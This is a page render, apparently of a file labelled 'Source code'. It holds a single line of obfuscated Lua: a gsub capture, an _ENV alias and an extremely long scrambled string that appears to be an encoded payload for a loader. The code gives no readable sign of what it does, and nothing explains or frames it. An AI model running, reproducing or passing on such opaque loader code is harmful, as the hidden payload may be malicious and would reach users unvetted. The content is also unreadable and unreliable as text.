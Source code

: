 gsub('.+', (function(a) _yUJvDQKMtuTe = a; end)); cHsmFWTOBFnTXt_R=_ENV;cLOMpLtmDcwdUyu='y- X*745r%}im>x15*Xr>*5Eo1ir**xQ5m-45-Xxmi5r(%%11rm457-7i4*rx7r- }>ir}-J}m*rx X1?k}4X%>15m--}-*1%r4* 7i8*mx>rx X5r**/7%m*xxrr* Oim7r1*1*xmmi5*FW%mXr>  >1r%* m>7*i{r} Xi>X4%x>}iXm>%%5X>mm4rg*%xR1i77%064xXX> X1_=%>Xm>frx7i15%X 1mi45ii}i_i}x*)>m5r- 54 >>l4m-7%xX>xX5* 1>i4*RQ%mX4}A7-1r%* 7mx471>%x*0rr7*,7}}X1x%5%-}m15fZ*}2Xm>4741x%5X-}r*1xxii7m1<rm rm *x>>r7 7i77}x%}4*8>m5r-*i<*mX4m* XmX7r1*%T }%**-xx5>  m*5X-X}r**xb5}>m%-X->m47.7mX4-1r%*X<m}X5x%%4->>i5%-E}m*rx **1%}4X71 rm rm*4S1m%r5(-e4xlr}**Y>m5r-*}Zrixir> oim7r1 7 -*}7*>x7r4-ii15X-r}r**xO5}>}%m >>74>ox}X1ri}51 *m15-c*}IXm>4X 1r%> %r_*zf5%i744i}l>4Si*-54-m1X>X5mKr}**,>}Xix74xXimx7%x4rX*%i*551.iXX4>Y%1*5>*5{_m}4-Xmm7%gi%xxm}%5+om7m mxXr%-1m15IC*}cXm>4*:1-%* >mX7>+4ii4916rm rm  %x5r -ii-4-}*4i 7m47i-5i4*mxrr*-x51*X>151w>mi4>Ug%mXr> 4E15%5X*mx4-S %57X1>rr *mZ7}m%rX--i} >xxrm >mr*X1-%}X}m%711>ii4-1Mrm rm -1x>r*-%i?jrmr% ->i14X1xiX7}xrr* ti}-4>15x(m}%7 %m7i Xim7r1-r%*51X5m-ri**xim5X- iD*>>i5-mm}m*%}?rr-%5*X%11%* 7x4r!-mir7*1Brm rm*4XZ>%rX*>=4}m5r- }im4>14%rX5>55Xim5iXm>%41-Xm}4*s_%mXr>*5Qxmx5*5xr5m-ri**xi;5r-*}m-1>%r*XXmx4rU*}OX}%}55-%}m*rx*5xx-} *Xx=4%- }X*-11%>X*>G4ma4r5->m77%-5im*mxrr*-xrr*%>45 2>i4:;m r- 5ir5X-%}r**x/5}x5}7XXm%54mLrX**>>5*--i}4}b*}fXm>r5*-R!/rrx454**-*xXi r--2!X4X05%rX*>_4}mmr- mmr4>ih41X*m74> Xm47r1*%p }%**m>>%--%m XX1>r>*4xh5m-ri*7!xmmm4*mX471r%*X{m} mx7rD-1i%7r1ir1*}71%*m}11X74}4345m44Q1m%rX*>^ m4}x**XxX5r-*i0*}i*4-Yx}}*Xx*%  mmr4*C{%mXr- iC81iX**xS5m-4r*Xix- *x>}i*4>157 7m1i},*}bXm>47r&z%mX*>XX4m54X* m>51> }5*7xm5m 7}x7>15r7 xii4X1x}A >> 5*m}%i*X>>Xi?%}r*1xmrm -i7 Xii7m1 ri7}!>7> 1%m54Qm}-*m}Xr --}x75}1r*->i77*1175X-m-47F44XX4m>5XI%ib*xx5rX-4> 7r7%7m7x4-4Xm741*1xmr* cimii7m1-%xmi4%0)%mXr> X%1>%A 7xXr>-ri*7wx}*7s4}x*->55--}4rXix%rr-m5*X*1ir1*}5x-%i77-x>r%7745m4401m%rX*>o4m5mx** %14>Xm+m>i}}5>>1i15 1*%h mm4 Xx*r5-5i17rx%%r 75mXi1m%%Xmrr*4M-i:1rirr :>}17Xxx}X*->r5*-d}}-Sm%4ip4i}*;*-***4*%*i}>>5X5x}4mbr}*Xx}74X11%}-im%4X1iri*rx 57-4}i7Xm*r--ri*7-1447X*>(4}-im 7Txmrr  %i7-m%7}  rmX7mi4% mm%**1-}17 x*rG-mi4XX}n5}-t}77=%r7r1X>X5*Ar}**.>}X511%}X4m%4X-Ci1451*%h mm4X >>r-  i 7i11**- i>4mYr%mX-x1%- *mW7m144X-*}>*%x7r-->m*55-%}m*rx*5xxr}X*X>75m(>}1*}11%xX*>o4mW44X im*4Xf iX71xrr* Bi} r>15%Q}i57*xir4-%5#XX1b%XXX>b4-1}}%7 xmrr *mn7m1rm*5{m157O*}gXm>4Xr1i%4 %>%-m>}%7X*>X4>-4m4>-X%} Qi5X>mx>xX*Xx45r-*ih*}}r4-Qr}7X7x*57(%i 445ii3x4-i7-r4 mrXxXr%-ri*72x}7iH%}}X1>%5*mm%m*>x5r- }>i51-^}m*rx X12*%>X7>}5mxr}-7_>%%i*6>?4m,r} 11i%4r17%xXrm>4m)r%%*415%> mmr4*1x7x 4i1711m**:*mx7%1i%1X}x1%X *m;7m144*--mu7rmXri *mX4 i1}17}x*rD-mi4-4>rr-?>}x*X%r74  ii751-%XXBm-751iiX75xrr* Wi}-4>-rQmrrr7 >>51 Xix5 *%i -irXxm77rxr1xxrr *mH7m1r%*r%Jm4iBr}HXm>r5 1Xr>Xrx5r}-mir7*xx*i-4}1X1x55r-%ir*>hi}**f>m5r-5i}*mxrr*-xrS*Xx* mxmiX*5xXr5Xi>%50Um}r* } 4iL>}X7X1Xrr *m9m 45t4%7 >mi4m}X*5>r5*-_}}XAm17>1m}5**>x5-- }54XfX%rX*>w4}x>%S->m-44jXiX7>xrr* _i}-}>-57-}i>D&ix5% r5WXb1}r7 5mi44-i>*7Ixmrr  r1*mx45- X}}*%1 rxX-5**X1*%5X4>*711%%1X7rm*}M7i*1mimr4--iX751 }45XL1}i*5xX51%imX  x1ri 5mX711i*5X1%1*7>*5.nm}4-*>X7>1%%x-1m>54-4}7Xi>%%5X}mm4rk*%x -m 441-%4Xrm14x--ii7x1?rm rm Xu>>rm *%r*%x4r7 r>151-*i+*mx4* /i}}Xr>75x 1m>4*0A%mX4%57ix%%r*5x%5m-ri**x}>5/t7}m*Y>75x !mx5 >i*X}m-75x>5xi*ix}rz-mir7 >m5}o>}x7011%>X*>d4mO4rm ii%7r-5mV*mxrr*-xri**>-rX-44* rx751-m5/*e1-r%X xX51-ri*7c711>r4mX4m1r%*XNm}X*xm5>-ii%7r1i%* rm74xxm%%*rx6rxm 7>1%%7X-m>}%}i:iiL*&>m5r- 5*Xm>r5^x1%>*4x457Ji}%45oi%mXr>*4x>mr%Xr>lX}j%}**/>55  5mi7m1r%* xrx74x7rB 5i17->i%4 %x4ra-mir7*1frmX+B*4XQ7%rX*>f4}>%4%s1mm4411%5 >xi%  Mim7r1 *x-*}7*Xx5Xr;*i-7}1mrm 7mx51 Xi*7Rxmr4x%}}*rx%r*xx}>*ix-r}X1xr5*-,}m*4} 7>p*}TX1>i54m*%7*}x-55-1ix74Ji}}*T>m5r- 5xX+m>4xtii17>1*%) mm47*>>ri-1>55i+m}r**>x*}{%%x-1m>54-4}7Xi>%%5Xmmm4rW*%xFiim7-1x%Xx*iA5-ur}**%1X%} rm*4^1}4---i}4-}*4>->ii7117%x >>Fr5 %im7r1*rx1*}>*1x}Xr15m7*x;1}m**x65m-451*X>*ri rmR7m1r14}%*Im>S5}rXm>r5*#x57 %m74xSX%7**1Xrx rm*481}44X5>14m0r}*%*X x57m-i%{7>m14}-7m 45> r-k145Jr%mXr>*4xxx%4 1m%*}>i5 7X1>rr *mw7}i55m--}%74>*r-XEmrX11}4xXXmX5-Liii4X1nrm rm X4x5r-- i7*>}*4 X-ix7}1-%rX5xi}m cim7r1 4s-q}>7X%m5x->im7-}r%i -m1-r^*} Xi>m4%qXigX>>rXc Xi-7rxrXm_7mX711}5i %mX-mxx457517rm rm*7xixrX-xm341c}}**W>m54>>i *mxrr* #im7r >>s xmr4*BF%mXr>*m*mm}i7-xA5m-ri #x>*47-}}7*4>iX^1ri-7Xxx}X*i>r5*-d}}h}> 4iai}rX >75mO%4^-x>>57  >X5 3r}**L>}*%>*%7X7%4r4 nim7r1*%K}m-%}*KX}%Xr>*5FJ}4> xmm4>_r5XX*m%5 n5}-Xm1i%%Xbmm4r3 5f 5m>4X- }m*rx*rv-m1ri%X8r1X}m*4;1m%4P i774xi*>X_i%7>1m%- mr**mN-}7*%x %XX-mr4*CT%}1%ix4-17}i7 xs5m-ri -1>O47B*}i*1%*7*-x}%*ix1r}X1x 5*-!}m*4iX4m1%}iXxrm7m-Xi%4Xa5%rX*>s4}mir7XJ}i7%A } X-m547  im7r1*%z mmr> *u%1X>>*5a9m}4-/m-4mO5i476xmrr *mf7m1r>*XX>44rN*}VX}}54!x>%1X ru*m1>}r7517rm rm*7xmm5% rmU41-5}**H>m54xX%5 %m>73J-}m 5xf4>-1i *7xx%1*R>*5fHm}4#5m74}17%4X m>ri >md7m1r% PP}>7m1*41 -mx77- }m*rx*rD-m%rmXX8r1X%m*4I1m%4L*i-4/1r5* xi%4 FX%m %>447g}%i*>14%f mmr4*3{7m%}%*5X-*}r**xR5}x}%%X1>-44hm}-7111%*X8mm44mxr- im57%1-}xx 5>-%i77-x>>-mi i>44,1m%rX %%751%%X -%}4%R*}(X5> X->1}*X>>X55 1>44*2M%mX4%-7rx}r> xmi-rx-%1X}>X4%-%m-7>1i}+X6mm4r< 4X -i77xL,*r-*m-4}1m%7741Brm rm*4U1mm*5*>X57tr}**O>}*%>%41X5>44x=-}}7}1*%2 mmr4*:N675r>5r Dm}r**>xXm1>%-X%>55 !*7m-}x%r* T}>74x4rrX->i5r-!}m*rx *x1%}-751rrm rm*7xmm5% rm0 }1X%r*Xx-5r-*iP*}i%**E7}77i1%%e mmr>r4-1x}*X%5X->}r**xT5}xX}  1>O4>w*7m-}x%r* J}>74x4rrX->i54-u}m*rx *}-1ix7*1^rm 4rr7-xi51 %>X5*Ir}**a>}**1mr>*-m%5 ;1i17m1*%E mXm>>5Jl-Xi>i5YUm}r* }m4>1}%4X7>4ri }mH7m1r% -1ir*715r}X1x*5*-9}m*4}%4}qx%%Xxx!55-4i% 6i}%iXr>V4mqr} 11m54i-5i4*mxrr*%XXnm}7>1x%Xmi4>g8%mXr> X%1-%  %5m*r1>%57X1>rr *ml7}i45-Q1iX*i1 ri >m 7*m1%5XFm14xmiii7>1srm rm  mx-r -i4m ix7%**XxO5r-*iZ*}> 47-Xi1711*%/ mm4 Xxir* Xm -1O1}>**xa5m-45x >>74% 5m>7m1r%* xri*7xxrCX-5*XXx>%4X m14}-1i17*1Frm 4%*7-x}rr-mi-41--}**R>m54>ir>X4mi4-Ex}5*X15%} mmr4*1x44WX5JXm>55rC%}i*4-imr7Axmrr  r7*}>>rX-*4rXix-%k->m4-=>1%r 7mx471>}F741Wrm rm*4L mH%5*>X54ur}**l>}*r1r%7 im14xb-}i*515%7 mmr4*1x5--%m*77C>}r*5x15m-ri**x}>5 -*}-*}%*4*-im-j*mx5> 7i%55